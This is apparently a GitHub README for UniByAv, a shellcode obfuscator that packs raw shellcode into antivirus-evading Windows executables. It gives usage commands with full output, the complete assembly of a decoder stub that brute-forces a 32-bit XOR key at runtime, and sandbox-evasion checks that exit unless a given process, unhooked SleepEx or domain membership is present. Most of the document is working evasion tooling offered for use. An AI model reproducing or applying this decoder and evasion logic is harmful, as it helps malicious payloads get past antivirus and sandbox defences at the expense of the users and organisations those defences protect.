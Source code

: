 # UniByAv
UniByAv is a simple obfuscator that take raw shellcode and generate executable that are Anti-Virus friendly.

The obfuscation routine is purely writtend in assembly to remain pretty short and efficient. In a nutshell the application generate a 32 bits xor key and brute force the key at run time then perform the decryption of the actually shellcode.

I'm going to update the code over the time to also support some of the evasion technique that I was using.

# Usage
```
$ python UniByAv4.1.py shellcode test.exe /cygdrive/c/Program\ Files\ \(x86\)/CodeBlocks/MinGW/bin/
UniByAv4.1 Shellcode encoder tool / Mr.Un1k0d3r RingZer0 Team 2014
Currently running under (cygwin) LINUX switch is set to 0
Self decoding payload written in assembly

[+]     Generating xoring key
[+]     Xoring key is set to 0x150014cc
[+]     Original shellcode size is (13) bytes adding (3) bytes to align it
[+]     Magic key is set to \x49\x62\x4d\x6b
[+]     Payload + decoder shellcode length is now (134) bytes
[+]     Generating the final c file
[+]     Generating random charset array for kernel32 and SetProcessDEPPolicy
[+]     Generating int array for "kernel32.dll". Array size is: 12
[+]     Generating int array for "SetProcessDEPPolicy". Array size is: 19
[+]     Compiling the final executable
[+]     /cygdrive/c/Users/Mr.Un1k0d3r/Desktop/output/test.exe has been created
[+]     Generation completed
```

![image](https://user-images.githubusercontent.com/4238766/29378637-d3e9c4e8-828d-11e7-9ce2-83e18a1ee931.png)

Setting the gccpath to none will only generate the C file
```
$ python UniByAv4.1.py SHELLCODE malicious.exe none configs/process-evasion.json
UniByAv4.1 Shellcode encoder tool / Mr.Un1k0d3r RingZer0 Team 2014
Currently running under (cygwin) LINUX switch is set to 0
Self decoding payload written in assembly


[+]     *** Loading process evasion module
[+]     Generating xoring key
[+]     Xoring key is set to 0x1e1be916
[+]     Original shellcode size is (5) bytes adding (3) bytes to align it
[+]     Magic key is set to \x52\x42\x4e\x78
[+]     Payload + decoder shellcode length is now (66) bytes
[+]     Generating the final c file
[+]     Generating random charset array for kernel32 and SetProcessDEPPolicy
[+]     Generating int array for "kernel32.dll". Array size is: 12
[+]     Generating int array for "SetProcessDEPPolicy". Array size is: 19
[+]     /cygdrive/c/Users/Mr.Un1k0d3r/Desktop/UniByAv/output/malicious.exe.c has been created
[+]     Generation completed
```

# The actual decoder

This tool rely on a simple assembly stub to decode the encoded shellcode. As you can see the key is unknown and it get brute forced at runtime. Since the loop is writting in assembly doing millions of rounds is fairly fast on a modern system.

```
Decoder assembly:
   0:   eb 2f                   jmp    31 
   2:   58                      pop    eax
   3:   31 c9                   xor    ecx,ecx
   5:   89 cb                   mov    ebx,ecx
   7:   6a 04                   push   0x4
   9:   5a                      pop    edx
   a:   43                      inc    ebx
   b:   ff 30                   push   DWORD PTR [eax]
   d:   59                      pop    ecx
   e:   0f c9                   bswap  ecx
  10:   31 d9                   xor    ecx,ebx
  12:   81 f9 41 75 49 48       cmp    ecx,[MAGIC]
  18:   75 f0                   jne    a 
  1a:   0f cb                   bswap  ebx
  1c:   31 c9                   xor    ecx,ecx
  1e:   81 c1 05 00 00 00       add    ecx,[NUMBER_OF_CHUNK]
  24:   01 d0                   add    eax,edx
  26:   31 18                   xor    DWORD PTR [eax],ebx
  28:   e2 fa                   loop   24 
  2a:   2d 14 00 00 00          sub    eax,[FULL_SIZE]
  2f:   ff e0                   jmp    eax
  31:   e8 cc ff ff ff          call   2 
  [OPCODE] 
```

# Evasion technique 

Predefined configuation file can be found in configs folder.

###### process
Check if a specific process is running. If it does not run the binary exit without running the payload.

###### time
Check if SleepEx was hooked. If it return bogus information it exit without running the payload.

###### domain
Check if the current user is part of the defined domain. If it is not the case it exit without running the payload.

# Requirement
On Windows
```
python
MinGW (shipped with CodeBlocks)
```

On Linux
```
python
wine
MinGW
```

# Credit
Mr.Un1k0d3r RingZer0 Team
